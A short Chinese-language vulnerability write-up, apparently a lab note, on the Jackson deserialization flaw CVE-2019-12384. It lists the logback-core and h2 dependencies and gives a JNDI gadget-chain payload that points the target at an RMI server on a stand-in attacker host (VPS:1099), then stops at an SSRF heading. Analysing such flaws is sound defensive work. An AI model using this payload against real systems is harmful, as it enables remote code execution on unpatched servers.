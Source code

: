 # CVE-2019-12384 Jackson 2019/07/22


## 概述

这个漏洞的利用有两个特别鸡肋的点：

第一点， 它需要依赖两个jar才能造成rce漏洞；除去jackson自身的jar包以外还需要logback-core和h2;相同的套路在fastjson也是可以造成RCE的,同样也依赖jar包

靶场使用的 logback-core和h2：


		<!--https://mvnrepository.com/artifact/ch.qos.logback/logback-core -->
		<dependency>
		    <groupId>ch.qos.logback</groupId>
		    <artifactId>logback-core</artifactId>
		    <version>1.3.0-alpha4</version>
		</dependency>
		
		<!--https://mvnrepository.com/artifact/com.h2database/h2 -->
		<dependency>
		    <groupId>com.h2database</groupId>
		    <artifactId>h2</artifactId>
		    <version>1.4.199</version>
		    <scope>test</scope>
		</dependency>
		<dependency>
		    <groupId>com.h2database</groupId>
		    <artifactId>h2</artifactId>
		    <version>1.4.199</version>
		    <scope>compile</scope>
		</dependency> 


第二点， 注意这个漏洞的触发，是在序列化恶意的对象的时候触发的，而jackjson大部分情况在web中都是用于处理去反序列化前端传入的json数据的。

## 利用

#### 利用点1

	ch.qos.logback.core.db.JNDIConnectionSource

jndi绕过链，比较取巧，跟之前未修复黑名单有关。  这个CVE 主要用jdbc的 SSRF 和 RCE 调用链 


//jndi绕过链

 	payload = "[\"ch.qos.logback.core.db.JNDIConnectionSource\", {\"jndiLocation\":\"rmi://VPS:1099/TouchFile\"}]";

![](1.jpg)

![](2.jpg)

<br/>

![](res1.jpg)

#### 利用点2

SSRF